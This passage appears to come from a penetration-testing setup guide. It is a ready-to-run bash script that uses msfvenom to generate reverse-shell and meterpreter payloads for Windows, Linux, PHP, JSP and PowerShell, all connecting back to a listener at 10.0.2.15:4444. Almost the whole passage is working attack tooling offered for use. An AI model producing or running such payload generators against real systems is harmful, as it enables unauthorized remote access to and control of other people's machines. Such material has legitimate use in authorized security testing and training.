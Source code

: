 ### 8. Payload Generation

#### Custom Payload Generation Script
```bash
# Create payload generation script
sudo tee /opt/generate-payloads.sh > /dev/null <<'EOF'
#!/bin/bash

LHOST="10.0.2.15"
LPORT="4444"
OUTPUT_DIR="/tmp/payloads-$(date +%Y%m%d-%H%M%S)"

mkdir -p $OUTPUT_DIR

echo "[+] Generating payloads..."
echo "[+] LHOST: $LHOST"
echo "[+] LPORT: $LPORT"
echo "[+] Output directory: $OUTPUT_DIR"

# Windows payloads
echo "[+] Generating Windows payloads..."
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe > $OUTPUT_DIR/windows_reverse_tcp.exe
msfvenom -p windows/shell/reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe > $OUTPUT_DIR/windows_shell_reverse_tcp.exe

# Linux payloads
echo "[+] Generating Linux payloads..."
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=$LHOST LPORT=$LPORT -f elf > $OUTPUT_DIR/linux_reverse_tcp
msfvenom -p linux/x64/shell/reverse_tcp LHOST=$LHOST LPORT=$LPORT -f elf > $OUTPUT_DIR/linux_shell_reverse_tcp

# Web payloads
echo "[+] Generating web payloads..."
msfvenom -p php/meterpreter/reverse_tcp LHOST=$LHOST LPORT=$LPORT -f raw > $OUTPUT_DIR/php_reverse_tcp.php
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f raw > $OUTPUT_DIR/jsp_reverse_tcp.jsp

# PowerShell payloads
echo "[+] Generating PowerShell payloads..."
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$LHOST LPORT=$LPORT -f powershell > $OUTPUT_DIR/powershell_reverse_tcp.ps1

chmod +x $OUTPUT_DIR/linux_*

echo "[+] Payload generation completed. Files saved to $OUTPUT_DIR"
ls -la $OUTPUT_DIR
EOF

chmod +x /opt/generate-payloads.sh
```
